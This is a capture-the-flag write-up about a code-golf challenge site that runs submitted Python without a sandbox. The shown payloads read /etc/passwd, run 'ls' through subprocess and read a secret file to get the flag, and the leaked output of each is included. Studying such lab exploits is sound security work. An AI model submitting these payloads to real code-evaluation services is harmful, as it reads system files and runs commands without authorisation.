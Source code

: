 # shortcode writeup

We are presented with a webpage that asks us to solve a programming exercise:

> In this challenge, you get at most 100 characters to print a square of size n
> with all numbers from 1 to n². The 1 is placed in the upper left corner, and
> the numbers spiral clockwise to the center. Numbers need to be left-padded
> with zeroes. Input will always be valid (a single integer).

Submitting the following code gives this result:

```py
def square(x):
	return str(x)
```

> Wrong: code did not meet the requirements for x = 4: 4

But how would the website actually check whether the output is correct? Of
course it has to run the code *somehow*.

Let's try something...

```py
def square(x):
	return open('/etc/passwd','r').read()
```

> Wrong: code did not meet the requirements for x = 14: root:x:0:0:root:[...]

Looks like it isn't sandboxed at all!

```py
def square(x):
	return __import__('subprocess').check_output(['ls'])
```

> Wrong: code did not meet the requirements for x = 5: b'main.py\nrequirements.txt\nsecret\n'

Well that's certainly useful. But what is in that `secret` file?

```py
def square(x):
	return open('./secret','r').read()
```

> Wrong: code did not meet the requirements for x = 5: FLG{Test flag here}
